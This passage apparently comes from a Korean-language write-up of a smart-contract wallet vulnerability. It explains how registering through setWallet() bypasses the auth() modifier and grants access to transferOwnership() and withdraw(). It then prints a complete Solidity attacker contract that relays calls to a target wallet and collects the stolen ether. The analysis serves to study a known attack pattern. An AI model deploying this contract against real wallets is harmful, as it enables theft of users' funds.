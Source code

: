 <br/>

그리고 더욱 심각한 문제는 `setWallet()`을 통해 `isWallet` 맵핑에 해당 지갑을 true로 등록하면 `auth()` modifier를 사용한 모든 함수를 통과할 수 있기 때문에 결과적으로 `transferOwnership()` 함수와 `withdraw()` 함수를 사용할 수 있게 되는 것이다.

<br/>

## 3) 공격 컨트랙트

### (1) 공격 컨트랙트 작성

#### AttackerContract.sol

```scala
contract AttackerContract {
  address public owner;
  address public target;
  
  event MoneyCollected(address from, uint amount);
  
  function AttackerContract(address _owner, address _target) public {
    owner = _owner;
    target = _target;
  }
  
  function changeTarget(address _target)  public {
    require(msg.sender == owner);
    target = _target;
  }
  
  function transferMoney() public payable {
    require(msg.sender == owner);
    owner.transfer(this.balance);
  }
  
  function () public payable {
    if (msg.value > 0) {
      MoneyCollected(msg.sender, msg.value);
      return;
    }
    target.call(msg.data);
  }
}
```

<br/>

공격 컨트랙트를 생성할 때 나중에 공격으로 모은 ether를 전송할 `owner`와 공격대상이 되는 지갑 `target` 주소를 지정한다.

```scala
function AttackerContract(address _owner, address _target) public {
  owner = _owner;
  target = _target;
}
```
